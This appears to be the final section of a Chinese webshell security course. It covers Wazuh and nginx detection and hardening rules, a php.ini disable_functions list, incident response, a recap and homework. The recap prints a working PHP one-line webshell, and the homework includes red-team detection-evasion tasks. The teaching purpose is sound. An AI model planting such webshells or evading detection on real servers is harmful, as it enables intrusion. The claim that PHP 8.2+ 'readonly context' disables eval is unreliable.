> 部署在主机侧的入侵检测：监控文件 / 进程 / 网络 / 用户。

**主流产品**：
+ 开源：Wazuh、OSSEC、Falco（容器场景）
+ 商业：青藤云、安全狗、Aliyun Aegis、腾讯云主机安全

### 关键规则示例（Wazuh）
```xml
<rule id="100200" level="10">
    <if_group>web</if_group>

    <decoded_as>web-accesslog</decoded_as>

    <url>="\.(php|jsp|asp|aspx)"</url>

    <srcip>!^192\.168\.</srcip>  <!-- 排除内网 -->
    <description>Possible webshell access from external IP</description>

</rule>

```

---

## 4.6 防御策略（纵深防御）


### Nginx 上传目录禁执行示例
```nginx
location ^~ /uploads/ {
    # 禁止执行 PHP
    location ~ \.php$ {
        deny all;
    }
    # 静态资源放行
    default_type application/octet-stream;
}
```

### PHP 层 disable_functions
```properties
; php.ini
disable_functions = exec,system,passthru,shell_exec,proc_open,popen,curl_exec,
    parse_ini_file,show_source,phpinfo,eval,assert
```

⚠️ `eval` 是语言结构，**无法被 disable_functions 禁用**！  
想禁用 eval 要用 **Suhosin 扩展** 或 **PHP 8.2+ 的 readonly 上下文**。

---

## 4.7 应急响应：发现 webshell 后怎么办？
### 处置流程
```plain
① 隔离     →  断网 / 防火墙拉黑 IP
② 取证     →  打包 webshell、日志、内存 dump
③ 分析     →  找出入侵路径（看 access.log 找最早触发点）
④ 清理     →  删 webshell + 检查是否被改其他文件
⑤ 加固     →  修复漏洞 + 配置防御
⑥ 复盘     →  写报告，更新规则
```

### 重要陷阱
> 🚫 **不要立刻删 webshell**！  
删除后攻击者可能：
> 1. 通过另一个 backdoor 重建
> 2. 察觉被检测，转入潜伏
>
> **正确做法**：先监控 → 找到全部门户 → 一锅端。

---

## 4.8 第 4 课小结
| 知识点 | 一句话理解 |
| --- | --- |
| Webshell 隐藏 | 深目录 + 改名 + 图片马 + 内存马 |
| 免杀层级 | L1 关键字 → L6 内存马，越深越难查 |
| 查杀工具 | D 盾、河马、ClamAV、YARA |
| 流量检测 | Suricata + 行为基线 + 异常告警 |
| 防御核心 | 纵深防御：上传限制 + 执行限制 + 监控 |
| 应急原则 | **先取证再删**，避免打草惊蛇 |


---

# 📝 课程总回顾（必背 30 条）
### 一句话 / 形态
1. Webshell = Web 文件形态后门，复用 Web 进程权限
2. 分类：一句话 / 小马 / 大马 / 内存马
3. 经典一句话：`<?php @eval($_POST['cmd']);?>`
4. `@` 抑制错误，`eval` 是代码执行核心，POST 不入日志
5. PHP 7+ assert 失效，免杀更难

### 工具
6. 中国菜刀：明文流量，特征最明显
7. 蚁剑：base64 编码器 + asenc/asoutput 关键字 + 6 位 hex 分隔符
8. 冰蝎：AES-128-CBC，密钥 16 字节硬编码
9. 哥斯拉：RSA 协商 AES 会话密钥，密钥不出现于流量
10. 三大工具语言：菜刀 Delphi、蚁剑 Electron、冰蝎 / 哥斯拉 Java

### 原理
11. PHP 触发函数：eval / assert / create_function / preg_replace /e
12. JSP 无 eval，靠 ClassLoader.defineClass 加载字节码
13. ASPX 靠 System.Reflection.Assembly.Load
14. 冰蝎 v3 用 class C{__construct(eval)} 绕 eval 关键字
15. 哥斯拉密钥来自 `MD5(pass)` 前 16 字节 + 后 16 字节

### 内存马
16. 内存马 = 注入到 Web 容器内部，无文件
17. Tomcat Filter 型：注册到 FilterChain
18. Spring Controller 型：动态注册 @RequestMapping
19. 重启即消失，应急要先 dump 内存

### 加密
20. AES-128-CBC：块大小 16 字节，密文长度是 16 倍数
21. RSA 协商：第一包交换 AES 会话密钥
22. 蚁剑编码器插件：base64 / chr / chr16 / rot13 / 自定义 AES

### 检测
23. 查杀工具：D 盾（Windows）/ 河马 / ClamAV / YARA / Neopi
24. 检测原理：正则 + AST + 熵值 + ML
25. 流量规则：Suricata content + pcre
26. 行为基线：高频 POST 单文件 = 高度可疑

### 防御
27. 上传目录禁执行 PHP（nginx location）
28. PHP `disable_functions` 关闭敏感函数（不能禁 eval）
29. WAF + HIDS + SIEM 三位一体
30. 应急：**先取证后清理**，避免打草惊蛇

---

# 🎯 课后作业
### 基础题
1. 手写 5 种 PHP 一句话变种，curl 测试每个是否生效（PHP 7 环境）
2. 把蚁剑、冰蝎、哥斯拉同时连上靶场，用 Burp 抓 3 条请求保存到 MD
3. 写一段 Python 脚本，从 Wireshark 导出的冰蝎 body 中解密出 PHP 代码

### 进阶题
4. 编写一条 Suricata 规则，对蚁剑默认 base64 编码器告警，并在靶场验证
5. 在 DVWA File Upload 关卡上传一句话，连接后执行 `whoami; ifconfig`
6. 用 YARA 写一条规则，识别"任意 PHP 文件中包含 `eval($_POST`" 模式

### 团队对抗题
7. 红队：写一个绕过 D 盾查杀的 PHP 一句话（提示：动态调用 + 字符串变换）
8. 蓝队：用 Wazuh + YARA 规则在主机侧检测并告警

---
